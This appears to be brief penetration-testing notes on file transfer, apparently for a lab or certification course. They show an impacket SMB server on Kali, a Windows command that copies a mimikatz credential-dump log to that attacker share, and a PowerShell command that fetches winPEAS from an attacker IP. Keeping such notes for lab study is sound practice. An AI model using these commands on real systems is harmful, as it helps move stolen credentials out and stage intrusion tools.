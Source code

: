 helpful note -
https://discord.com/channels/780824470113615893/1148907181480104028/1148907181480104028

## FILE TRANSFER

### SMB

SET UP on Kali:
```
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

Copying from Windows:
```
net use m: \\Kali_IP\test /user:kourosh kourosh copy mimikatz.log m:\
```


### POWERSHELL INVOKE WEB REQUEST

Transferring winpeas to attacker machine
```
iwr -uri http:/<IP>/winPEASx64.exe -Outfile winPEAS.exe
```

